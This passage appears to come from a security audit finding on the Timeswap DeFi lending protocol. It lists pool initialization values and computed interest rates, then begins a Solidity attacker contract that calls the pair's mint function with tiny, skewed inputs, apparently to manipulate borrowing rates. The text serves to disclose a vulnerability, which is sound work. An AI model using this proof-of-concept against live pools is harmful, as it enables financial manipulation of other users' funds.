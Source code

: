 ```
        
    }
}

```

Here are the initialization values:

        uint112 xIncrease = 5_000 ether;
        uint112 yIncrease = (APR*xIncrease)/(SEC_PER_YEAR*100);
        uint112 zIncrease = (5*xIncrease)/3; //Static 167% CDP

With this configuration, I've calculated the interest rate to borrow on this pool using the functions defined here: <https://timeswap.gitbook.io/timeswap/deep-dive/borrowing>
to  be:

```
yMax: 4.7533146923118e-06
Min Interest Rate: 0.009374999999999765
Max Interest Rate: 0.14999999999999625
zMax: 1666.6666666666667

```

Around 1% to 15%.

Then, the attacker comes along (see line containing `let atakcontrak` and after). The attacker deploys the following contract:

    pragma solidity =0.8.4;

    import "hardhat/console.sol";
    import {ITimeswapMintCallback} from "./interfaces/callback/ITimeswapMintCallback.sol";
    import {IPair} from "./interfaces/IPair.sol";
    import {IERC20} from '@openzeppelin/contracts/token/ERC20/IERC20.sol';
    interface TestTokenAtt is IERC20{
        function mmint(uint256 amount) external;
    }

    contract Attacker is ITimeswapMintCallback {

        uint112 constant SEC_PER_YEAR = 31556926;
        TestTokenAtt internal jtok;
        TestTokenAtt internal usdc;

    constructor(address _jtok, address _usdc){
        jtok = TestTokenAtt(_jtok);
        jtok.mmint(10_000 ether);
        usdc = TestTokenAtt(_usdc);
        usdc.mmint(10_000 ether);
    }

    function timeswapMint(uint maturity, uint112 APR, address pairAddress) public{
        uint256 maturity = maturity;
        console.log("Maturity: ", maturity);
        address liquidityTo = address(this);
        address dueTo = address(this);
        uint112 xIncrease = 3;
        uint112 yIncrease = 1000000000000000;
        uint112 zIncrease = 5; //Static 167% CDP
        IPair(pairAddress).mint(maturity, liquidityTo, dueTo, xIncrease, yIncrease, zIncrease, "");
    }
